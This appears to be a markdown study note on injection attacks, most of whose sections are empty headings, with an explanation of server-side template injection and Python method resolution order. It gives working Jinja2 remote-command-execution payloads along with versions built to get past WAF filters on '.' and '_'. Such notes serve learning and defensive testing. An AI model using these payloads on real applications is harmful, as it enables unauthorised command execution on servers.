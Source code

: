 # Injection Attacks  

## SOAP Injection  

## SMTP Injection  

## Command Injection  

## Code Injection  

## SQL Injection


## Server Side Template Injection (SSTI)   

### What is an SSTI?   
<blockquote>
A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like:

    <h1>Welcome to the page!</h1>
    <u>This page is being accessed from the remote address: {{ip}}</u>
    
Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the {{ip}} variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

So when the power to create and render templates is given to a user, it can lead to full access to the system, as the user running the webserver.
</blockquote>   

### What is MRO?  
* Method Resolution Order (MRO) is the order in which Python looks for a method in a hierarchy of classes.
* It plays a vital role in the context of multiple inheritance as single method may be found in multiple super classes.  
  ```python
  class A:
      def process(self):
          print('A process()')

  class B:
      def process(self):
          print('B process()')

  class C(A, B):
      def process(self):
          print('C process()')

  class D(C,B):
      pass

  obj = D()
  obj.process()

  print(D.mro())
  ```    

* This script will output the following 
  ```python
  [<class '__main__.D'>, <class '__main__.C'>, <class '__main__.A'>, <class '__main__.B'>, <class 'object'>]
  ```  

* This MRO functionality will come in extremely handy for building python SSTI Jinja2 payloads   

### We Can Get RCE Through SSTI with the Following   

<blockquote>
I initially built the following payload for remote command execution, and will now try and apply as many filter bypasses as I can. `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

If the waf blocks “.": `{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}`

If the waf blocks “.” and “_": `{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}`
</blockquote>   

### Does that Mean if we block the use of `{{}}` we can protect the application from SSTI?   

* No. There are 2 other methods we can use templates in Jinja apps which is via using hashes and the other using these `{% %}`.   


### For More Info  
* If the link is still working check it out it's got nice content. <a href="https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/">Link!</a>  





